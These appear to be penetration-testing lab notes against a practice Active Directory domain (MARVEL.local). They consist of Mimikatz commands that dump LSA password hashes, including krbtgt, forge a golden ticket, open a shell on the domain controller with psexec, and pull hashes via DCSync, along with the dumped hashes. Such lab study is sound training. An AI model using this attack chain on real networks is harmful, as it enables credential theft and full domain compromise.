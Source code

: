 Had to login to the HYDRA-DC computer for these steps:
```batch - mimikatz
privilege::debug
```
```batch - mimikatz
lsadump::lsa /patch
```
---
User : Administrator
NTLM : 920ae267e048417fcfe00f49ecbd4b33
User : krbtgt
NTLM : 8c8dd11e0a43f1c5fdf456cf106b787b
User : fcastle
NTLM : 64f12cddaa88057e06a81b54e73b949b
User : tstark
NTLM : 76baeeb6f8a1534bcbaa93d1f2c8577d
User : pparker
NTLM : c39f2beb3d2ec06a62cb887fb391dee0
User : SQLService
NTLM : f4ab68f27303bcb4024650d8fc5f973a
---
| Key     | Value                                    |
| ------- | ---------------------------------------- |
| DOMAIN  | MARVEL.local                             |
| SID     | S-1-5-21-3937660211-3584777854-674746177 |
| krbrtgt | 8c8dd11e0a43f1c5fdf456cf106b787b         |
```batch - mimikatz
kerberos::golden /user:fakeuser /domain:MARVEL.local /sid:S-1-5-21-3937660211-3584777854-674746177 /krbtgt:8c8dd11e0a43f1c5fdf456cf106b787b /ptt
```
```batch - mimikatz
misc::cmd
```
```batch - windows
psexec \\HYDRA-DC cmd.exe
```
#### NTDS.dit
```batch - mimikatz
lsadump::dcsync /user:Administrator
```
```batch - mimikatz
lsadump::dcsync /user:fcastle
```
```batch - mimikatz
lsadump::dcsync /user:pparker
```
```batch - mimikatz
lsadump::dcsync /user:tstark
```
```batch - mimikatz
lsadump::dcsync /user:SQLService
```
